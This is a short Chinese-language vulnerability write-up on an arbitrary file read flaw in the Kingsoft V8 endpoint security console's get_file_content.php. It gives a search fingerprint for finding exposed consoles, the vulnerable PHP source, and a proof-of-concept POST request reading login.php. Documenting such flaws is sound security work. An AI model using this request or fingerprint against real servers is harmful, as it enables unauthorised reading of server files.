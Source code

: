 # 

# 金山 V8 终端安全系统 get_file_content.php 任意文件读取漏洞

## 漏洞描述

金山 V8 终端安全系统 存在任意文件读取漏洞，攻击者可以通过漏洞下载服务器任意文件

## 漏洞影响

```
金山 V8 终端安全系统
```

## 网络测绘

```
title="在线安装-V8+终端安全系统Web控制台"
```

## 漏洞复现

登录页面

![image-20220525150449778](./images/202205251504895.png)

存在漏洞的文件`/Console/receive_file/get_file_content.php`

```
<?php  
  if(stripos($_POST['filepath'],"..") !== false) {
    echo 'no file founggd';
    exit();
  }
  ini_set("open_basedir", "../");
  $file_path = '../'.iconv("utf-8","gb2312",$_POST['filepath']);
  if(!file_exists($file_path)){
    echo 'no file founggd';
    exit();
  }  

  $fp=fopen($file_path,"r");  
  $file_size=filesize($file_path); 

  $buffer=5024;  
  $file_count=0;  

  while(!feof($fp) && $file_count<$file_size){  
    $file_con=fread($fp,$buffer);  
    $file_count+=$buffer;  
    echo $file_con;  
  }  
  fclose($fp);  
?>
```



文件中没有任何的过滤 通过 filepaht 参数即可下载任意文件

由于不能出现 `..` ，所以只能读取web目录下的文件

```
POST /receive_file/get_file_content.php

filepath=login.php
```

![image-20220525150700239](./images/202205251507315.png)
